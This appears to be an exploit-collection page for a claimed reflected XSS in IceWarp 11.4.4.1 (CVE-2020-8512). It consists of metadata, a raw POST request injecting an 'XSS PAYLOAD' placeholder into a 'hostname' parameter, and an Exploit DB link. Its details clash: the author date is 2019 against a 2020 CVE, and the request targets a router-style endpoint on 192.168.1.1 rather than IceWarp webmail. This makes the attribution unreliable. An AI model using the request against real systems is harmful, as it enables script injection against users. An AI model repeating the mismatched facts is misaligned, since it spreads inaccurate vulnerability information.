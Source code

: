 ```yaml
---
title: "IceWarp 11.4.4.1 Cross-Site Scripting"
collection: exploits
excerpt: "IceWarp 11.4.4.1 Cross-Site Scripting"
permalink: /exploit/icewarp-xss-exploit
date: 2020-01-27
tags:
  - exploit
  - CVE 2020 8512
  - icewarp
  - Reflected XSS
  - IceWarp Webmail version 11.4.4.1
---
```


**Exploit Author :** Lutfu Mert Ceylan  
**Date :** 27.01.2019  
**Software Link :** https://gitlab.icewarp.com/pub/c-client/tree/tags/11.4.4.1/  
**Vendor Homepage :** https://www.icewarp.com/ 
**Version :** IceWarp 11.4.4.1 and below  
**Tested on :** Mozilla Firefox 56.0 && Opera 66.0.3515.44  
**Category :** Reflected XSS  
**CVE ID :** CVE-2020-8512  

<hr><br>  

**POST REQUEST :**

POST /pages/connectionStatus/connectionStatus-hostEntry.cmd HTTP/1.1  
Host: 192.168.1.1  
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:54.0) Gecko/20100101 Firefox/54.0  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8  
Accept-Language: tr-TR,tr;q=0.8,en-US;q=0.5,en;q=0.3  
Accept-Encoding: gzip, deflate  
Referer: http://192.168.1.1/index.html  
Content-Type: application/x-www-form-urlencoded  
Content-Length: 79  
Cookie: SESSION=529313605  
Connection: close  
Upgrade-Insecure-Requests: 1  
action=edit&oldip=192.168.1.36&hosttype=&sessionKey=1997367832&**hostname**=**XSS PAYLOAD**  

**Vulnerable Page :**
/pages/connectionStatus/connectionStatus-hostEntry.cmd  
**Vulnerable Parameter :**
hostname


Exploit DB : <a href="https://www.exploit-db.com/exploits/45236">45236</a>
